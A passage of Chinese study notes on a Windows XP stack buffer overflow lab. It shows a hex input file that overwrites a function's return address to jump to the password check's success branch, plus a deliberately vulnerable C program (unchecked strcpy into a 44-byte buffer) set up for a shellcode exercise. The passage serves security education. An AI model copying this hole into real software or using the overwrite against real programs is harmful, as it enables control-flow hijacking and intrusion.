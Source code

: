 ##### 分析(ExpStd0102)

> 首先使用已知的地址进行shellcode的编写，此地址不同编译器编译出的结果不同，不同系统加载的地址也不同，所以只能测试时使用

- 必要信息
  - 成功分支地址：`0x0040111F`
  - 由于内存逆序存放，应该逆序写这些值
- 十六进制编辑password.txt，如下

```c
34 33 32 31 34 33 32 31 34 33 32 31 34 33 32 31
1F 11 40 00
```

- 运行程序，此时
  - 在栈地址`0x0012FB24`处存放的事是函数`verify_password`的返回地址
  - 此处已经被冲刷为`0040111F`，而此地址是成功分支地址
- 使用成功分支地址替代了返回地址，但是由于堆栈不平衡，所以程序显示成功后崩溃

---

#### 加入攻击载荷(ShellCode)

加大了buffer的大小用来承载攻击载荷  
动态加载DLL用于调用API

##### 代码(ExpStd0103)

> 编译环境：Windows XP SP3, Visual C++ 6, Debug  
> 实验环境：Windows XP SP3

```c
#include <stdio.h>
#include <windows.h>
#define PASSWORD "1234567"

int verify_password(char *password)
{
    int authenticated;
    char buffer[44];
    authenticated = strcmp(password, PASSWORD);
    strcpy(buffer, password);
    return authenticated;
}

int main()
{
    int valid_flag = 0;
    char password[1024];
    FILE * fp;
    LoadLibrary("user32.dll");
    if(!(fp = fopen("password.txt", "rw+")))
    {
        exit(0);
    }
    fscanf(fp, "%s", password);
    valid_flag = verify_password(password);
    if(valid_flag)
    {
        printf("ERROR!");
    }
    else
    {
        printf("OK!");
    }
    fclose(fp);
}
```
